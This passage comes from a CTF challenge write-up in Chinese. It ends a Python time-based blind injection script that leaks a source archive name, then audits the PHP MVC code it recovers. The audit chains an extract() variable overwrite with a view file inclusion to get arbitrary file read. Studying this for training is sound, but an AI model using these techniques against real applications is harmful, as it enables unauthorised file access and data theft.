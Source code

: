 ```python
                res = requests.post(url=url, data=data, headers=headers, timeout=3)
                print(res.text)
            except requests.exceptions.ReadTimeout:
                flag = flag + chr(j)
                print(flag)
                break


def str_to_hex(s):
    return ''.join([hex(ord(c)).replace('0x', '') for c in s])

if __name__ == '__main__':
    main()
```

结果是`glzjin_wants_a_girl_friend.zip`

下载，然后进行代码审计，典型的MVC框架，先看一下核心配置，找到路由控制

```php
	$r = explode('/', $_REQUEST['r']);
	list($controller,$action) = $r;
	$controller = "{$controller}Controller";
	$action = "action{$action}";
    $data = call_user_func(array( (new $controller), $action));
```

假设GET的输入为?r=Login/Index，这段代码就去请求LoginController中的actionIndex方法

然后看一下控制器文件，总共三个。在BaseController.php中发现extract函数，可能存在变量覆盖，接着找可控点，在UserController.php发现其actionIndex函数是完全可控的，其调用的视图为userIndex.php，然后在userIndex.php发现存在文件包含，结合上面的变量覆盖就可以实现任意文件读取

![](../../.gitbook/assets/HjBsySntu8fbokR.png)
